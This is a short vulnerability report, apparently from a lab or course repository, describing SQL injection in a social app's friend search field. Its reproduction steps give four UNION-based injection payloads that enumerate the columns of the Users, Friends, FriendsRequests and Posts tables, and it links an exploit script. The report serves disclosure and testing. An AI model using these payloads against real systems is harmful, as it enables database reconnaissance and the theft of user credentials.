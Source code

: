 # Vulnerability: SQL Injection in My Friends (Search) Field

- Vulnerability: SQL Injection
- Where: `Search` Field in `My Friends` Tab
- Impact: Allows Any User to List all Columns in a Given Table in DB

## Steps to Reproduce
1. Register with a non existing Username
2. Go to `My Friends` Tab
3. Search = `' AND 1 <> 1 UNION SELECT COLUMN_NAME, 1, 1, 1, 1 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'Users' -- `, verifying that you are presented with all Columns in `Users`' Table in DB (`USERNAME`, `PASSWORD`, `NAME`, `ABOUT` and `PHOTO`)
4. Search = `' AND 1 <> 1 UNION SELECT COLUMN_NAME, 1, 1, 1, 1 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'Friends' -- `, verifying that you are presented with all Columns in `Friends`' Table in DB (`ID`, `USERNAME1` and `USERNAME2`)
5. Search = `' AND 1 <> 1 UNION SELECT COLUMN_NAME, 1, 1, 1, 1 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'FriendsRequests' -- `, verifying that you are presented with all Columns in `FriendsRequests`' Table in DB (`ID`, `USERNAME1` and `USERNAME2`)
6. Search = `' AND 1 <> 1 UNION SELECT COLUMN_NAME, 1, 1, 1, 1 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'Posts' -- `, verifying that you are presented with all Columns in `Posts`' Table in DB (`ID`, `AUTHOR`, `CONTENT`, `TYPE`, `CREATED_AT` and `UPDATED_AT`)

## POC
- [Script](./Exploit.py)
- To Run: `../runVulnN.sh 3`
